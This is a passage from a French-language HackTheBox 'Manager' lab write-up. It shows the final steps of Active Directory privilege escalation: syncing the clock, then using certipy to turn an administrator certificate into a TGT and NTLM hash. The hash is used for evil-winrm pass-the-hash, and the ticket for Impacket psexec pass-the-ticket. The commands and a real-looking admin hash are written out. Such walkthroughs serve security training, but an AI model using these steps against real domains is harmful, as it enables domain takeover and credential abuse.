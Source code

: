 ![Clock-skew-error](/images/HTB-Manager/Clock-error.png)

Utilisez la commande ci-dessous et exécutez immédiatement la seconde commande avec `certipy auth`.

```
sudo ntpdate -u manager.htb
```

![ntpdate-clock-sync](/images/HTB-Manager/CLOCK-SYNC.png)

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Nous obtenons un ticket TGT et le hash de l'administrateur. Les deux peuvent être utilisés pour obtenir des privilèges administrateurs. Vous pouvez vous connecter avec le hash en utilisant `evil-winrm` ou vous pouvez passer le ticket avec `impacket`.

![TGT-Ticket-and-admin-hash](/images/HTB-Manager/CA6.png)

### Méthode evil-winrm

```
evil-winrm -i 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```

![admin-shell-evil-WinRM](/images/HTB-Manager/evil-winrm-root.png)

### Passer le ticket (Pass the ticket Attack) 

> Cette méthode est sujette à l'erreur `Kerberos SessionError : KRB_AP_ERR_SKEW(Clock skew too great)`, vous devrez réutiliser la commande `ntpdate` avant d'utiliser `impacket`.

Pour passer le ticket, je dois d'abord l'exporter. Vous trouverez plus d'informations [ici](https://www.thehacker.recipes/a-d/movement/kerberos/pass-the-certificate).

```
export KRB5CCNAME=administrator.ccache
```

Je me connecte ensuite au contrôleur de domaine (DC)

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py manager.htb/administrator@dc01 -k -no-pass -dc-ip 10.10.11.236 -target-ip 10.10.11.236
```

Et nous sommes en possession d'un compte privilégié!

![Impacket-privileged-account](/images/HTB-Manager/CA7.png)

### Méthode des commandes en chaîne

Enchaîner les commandes peut être la solution pour vous si vous n'arrivez pas à les exécuter assez rapidement individuellement. Cependant, vous aurez probablement besoin d'essayer plusieurs fois.

```
sudo ntpdate -u manager.htb
```
